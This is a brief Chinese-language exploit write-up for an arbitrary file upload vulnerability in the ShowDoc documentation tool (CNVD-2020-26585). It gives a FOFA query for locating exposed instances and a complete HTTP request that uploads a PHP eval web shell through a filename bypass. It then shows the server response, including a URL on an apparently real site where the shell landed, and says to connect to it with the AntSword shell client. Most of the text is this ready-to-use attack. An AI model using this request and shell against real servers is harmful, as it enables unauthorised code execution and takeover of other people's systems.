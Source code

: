 # showdoc 文件上传 （CNVD-2020-26585）

## 01、简述

ShowDoc一个非常适合IT团队的在线[API](https://so.csdn.net/so/search?q=API&spm=1001.2101.3001.7020)文档、技术文档工具。 api_page存在任意文件上传

## 02、fofa语句

```
app=“ShowDoc”
```

## 03、利用过程

```POST /index.php?s=/home/page/uploadImg HTTP/2
POST /index.php?s=/home/page/uploadImg HTTP/2
Host: xxxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Content-Length: 252

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php @eval($_POST[a]);?>  
----------------------------921378126371623762173617--```
```

```HTTP/2 200 OK
{"url":"https:\/\/doc.mfstudio.cc\/Public\/Uploads\/2022-04-12\/6254edcbb57d7.php","success":1}```
```

使用蚁剑连接即可

## 04、参考

https://blog.csdn.net/YouthBelief/article/details/121343974

![showdoc](\showdoc.png)